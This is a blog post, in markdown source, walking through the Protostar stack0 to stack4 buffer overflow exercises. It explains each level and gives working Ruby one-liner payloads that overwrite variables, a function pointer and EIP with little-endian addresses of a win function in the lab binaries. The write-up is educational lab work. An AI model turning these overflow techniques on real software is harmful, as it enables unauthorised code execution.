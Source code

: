 ```yaml
---
title: Exploit Exercises Protostar Guide, Part 1
date: 2015-03-07 19:36 UTC
tags: assembly, security, reverse engineering
---
```


In order to better understand the material from the [Software Security course on Coursera][1], I decided to take a stab at the challenges on [Exploit Exercises][2].

So far it has been an amazing way to really cement the concepts from the course, so I decided to document my progress here for anybody else interested in making their way through the levels.

I've been running through these challenges by setting up the downloadable ISOs from the [Exploit Exercises downloads page][3] in VirtualBox, then `ssh`ing in so I don't have to deal with VirtualBox as much.

### Stack 0

In `stack0`, the program defines an `int` variable named `modified`, followed by a 64 byte `char` buffer. It then gets input from `STDIN`, using `buffer` as its destination, before printing a string dependent on the contents of `modified`.

By passing input with a length greater than 64 bytes to the program, the `buffer` variable will overflow onto the `modified` variable, giving you the target output. The first 64 bytes will fill the buffer, with the 65th byte overwriting the value of `modified`.

	echo aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa | ./stack0

Typing all those characters is exhausting though. Let's use Ruby.

	ruby -e "puts('A' * 65)" | ./stack0

### Stack 1

This program expands upon the previous example by requiring that you use a specific value as your overflow. It works similarly to `stack0`, except the exploit only succeeds when `modified` matches `0x61626364`.

To fill the `buffer` variable, we again need 64 bytes of padding, followed by the value to overwrite `modified` with. The value `0x61626364` conveniently matches the first 4 lowercase alphabetical characters in the ASCII character set (`abcd`). By adding that to the end of the padding string, the conditional should succeed.

There's one caveat: the VM that Protostar is running in is little-endian, meaning that the order of the characters needs to be reversed before being appended to the string.

	./stack1 `ruby -e "puts(('A' * 64) + 'dcba')"`

### Stack 2

This challenge is very similar to the previous one, except that the malicious string needs to be set as an environment variable instead.

Note that I'm also using hex values directly, as these don't nicely translate to ASCII characters.

	GREENIE=`ruby -e "puts(('A' * 64) + \"\x0a\x0d\x0a\x0d\")"`
	export GREENIE
	./stack2
 
### Stack 3

This challenge asks us to overwrite a pointer value stored on the stack with that of another function. The tricky aspect of this one is finding the address of the function we want to call.

`objdump` is a tool which prints information about binaries – time to put it to use by finding the address of the `win` function.

	$ objdump -d stack3 | grep win
	08048424 <win>:
 
The address of `win` looks to be `0x08048424`. Nice! That will serve as the value of our overflow, formatted as little-endian once again.

	ruby -e 'puts(("A" * 64) + "\x24\x84\x04\x08")' | ./stack3
 
### Stack 4

This was a pretty fun challenge to figure out. The idea is that you have to overwrite the `eip` pointer on the stack, while dealing with the compiler which will insert an undetermined amount of padding between you and `eip` on the stack.

After some research, I found a few mentions of a technique used to exploit code like this. The idea is to generate a unique, non-repeating string, and use that to find the offset by providing it as the value of the overflow.

I used [this handy tool][4] to generate a string. Pass that string to the program, and look at the result when it hits `eip`. (A quick note on this part: you will need to open and run the program in `gdb` to see the value that is being called.)

Take the value and pass it back to the buffer overflow tool to figure out the offset (76, in this case). Use `objdump` to find the address of `win` once more, and then you have yourself an exploit.
 
	ruby -e 'puts(("A" * 76) + "\xf4\x83\x04\x08")' | ./stack4

[1]:	https://www.coursera.org/course/softwaresec
[2]:	https://exploit-exercises.com/
[3]:	https://exploit-exercises.com/download/
[4]:	http://projects.jason-rush.com/buffer-overflow-eip-offset-string-generator